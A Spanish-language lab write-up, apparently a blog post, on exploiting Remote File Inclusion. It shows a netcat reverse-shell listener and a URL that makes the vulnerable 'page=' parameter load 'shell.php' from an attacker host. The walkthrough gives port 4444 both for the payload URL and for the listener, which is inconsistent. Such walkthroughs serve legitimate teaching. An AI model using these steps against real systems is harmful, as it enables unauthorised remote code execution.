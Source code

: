```yaml
---
title: Vulnerabilidad Remote File Inclusion
excerpt: Explotación Remote File Inclusion
publishDate: 'Oct 08 2025'
tags:
  - remote file inclusion
seo:
  image:
    src: '/rfi.png'
    alt: Imagen creada con Chat GPT
---
```


![rfi](/rfi.png)

***Resumen***: Esta vulenrabilidad, nos permite llevar nuestra URL a otro servidor donde tengamos alojado una web maliciosa o un payload que nos llevará a la intrusión de la máquina.

***Nota***: Para este laboratorio he usado chatGPT para crear el entorno vulnerable.

## Procedimiento

Una vez desplegado el laboratorio, accedemos a él y vemos la url vulnerable con el parámetro **page=** que nos dice ya donde introducir la dirección de nuestro payload.

[![url_vulnerable](/url_rfi.png)](/url_rfi.png)

```bash
http://localhost:8080/?page=local.php
```

En la máquina atacante abrimos un servidor http en python para servir el payload.

[![servidor_http](/server_http.png)](/server_http.png)

También ponemos nc a escuchar por el puerto que tengamos configurado en el payload para recibir la shell remota.

```bash
 sudo nc -lvnp 4444 
 ```

 Ahora solo tenemos que poner en la url vulnerable la dirección de nuestro payload y recibiremos la conexión.

 ```bash
 http://localhost:8080/?page=http://192.168.1.42:4444/shell.php
 ```
 [![reverse_shell](/rvs.png)](/rvs.png)

 ## Conclusión

 La vulnerabilidad es muy fácil de explotar y está presente en más sitios de los que a priori podamos pensar. Es muy parecido a un LFI, pero con pequeños cambios.

 ***Consejos extra***: Si no encontramos un parámetro en la URL que nos permita hacer el RFI, hacemos fuzzing web para buscar una ruta que sí lo permita.




